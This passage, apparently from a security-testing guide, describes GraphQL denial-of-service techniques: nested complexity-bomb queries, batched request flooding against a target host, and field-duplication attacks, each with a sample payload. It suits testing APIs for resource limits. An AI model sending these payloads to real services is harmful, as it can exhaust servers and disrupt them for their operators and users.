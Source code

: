 2. **Query complexity bombs**:
   - Combine nested queries with field duplication
   - Request resource-intensive computed fields
   - Request large result sets
   
   Example:
   ```graphql
   query ComplexityBomb {
     allUsers(first: 10000) {  # Large result set
       posts(first: 100) {     # For each user
         comments(first: 100) { # For each post
           author {
             # Requesting the same expensive fields multiple times
             activityFeed { id }
             activityFeed { id }
             activityFeed { id }
             activityFeed { id }
             # ... repeat many times
           }
         }
       }
     }
   }
   ```

3. **Batch query flooding**:
   - Send multiple operations in a single request
   - Increase batch size until you find the limit or impact
   
   Example:
   ```
   POST /graphql HTTP/1.1
   Host: target.com
   Content-Type: application/json
   
   [
     {"query": "query { user(id: \"1\") { username } }"},
     {"query": "query { user(id: \"2\") { username } }"},
     ... 
     # Repeat hundreds or thousands of times
   ]
   ```

4. **Field duplication attacks**:
   - Request the same field thousands of times
   - Focus on computationally expensive fields
   
   Example:
   ```graphql
   query {
     user(id: "1") {
       # Request the same field many times
       email email email email email email
       # ... repeat hundreds of times
     }
   }
   ```
